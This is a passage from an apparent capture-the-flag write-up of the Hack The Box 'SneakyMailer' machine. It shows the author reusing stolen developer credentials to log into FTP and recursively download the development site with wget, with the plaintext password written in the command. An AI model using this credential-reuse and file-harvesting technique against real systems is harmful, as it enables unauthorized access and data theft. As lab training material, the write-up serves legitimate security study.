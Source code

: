 ### 6. Use the developer creds
Just like last time, I take these creds and go back over all the different services trying them with each one. This time, I get logged into an FTP account. I notice the "team.php" file, which indicates this is most likely some developer branch of the sneakycorp website. Since there are a lot of files, I log out and download them all to investigate properly.
```bash
kali@kali:~/Desktop/htb/sneakymailer$ ftp 10.10.10.197
Connected to 10.10.10.197.
220 (vsFTPd 3.0.3)
Name (10.10.10.197:kali): developer
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxr-x    8 0        1001         4096 Jul 19 09:13 dev
226 Directory send OK.
ftp> cd dev
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 May 26 19:52 css
drwxr-xr-x    2 0        0            4096 May 26 19:52 img
-rwxr-xr-x    1 0        0           13742 Jun 23 09:44 index.php
drwxr-xr-x    3 0        0            4096 May 26 19:52 js
drwxr-xr-x    2 0        0            4096 May 26 19:52 pypi
drwxr-xr-x    4 0        0            4096 May 26 19:52 scss
-rwxr-xr-x    1 0        0           26523 May 26 20:58 team.php
drwxr-xr-x    8 0        0            4096 May 26 19:52 vendor
226 Directory send OK.
ftp> quit
221 Goodbye.
kali@kali:~/Desktop/htb/sneakymailer$ wget -r --user="developer" --password="m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C" ftp://10.10.10.197
--2020-07-19 09:16:52--  ftp://10.10.10.197/
           => ‘10.10.10.197/.listing’
Connecting to 10.10.10.197:21... connected.
Logging in as developer ... Logged in!
==> SYST ... done.    ==> PWD ... done.
==> TYPE I ... done.  ==> CWD not needed.
==> PASV ... done.    ==> LIST ... done.

10.10.10.197/.listing                             [ <=>                                            ]     180  --.-KB/s    in 0s      

2020-07-19 09:16:57 (14.7 MB/s) - ‘10.10.10.197/.listing’ saved [180]

Removed ‘10.10.10.197/.listing’.
--2020-07-19 09:16:57--  ftp://10.10.10.197/dev/
           => ‘10.10.10.197/dev/.listing’
==> CWD (1) /dev ... done.
==> PASV ... done.    ==> LIST ... done.
...
```
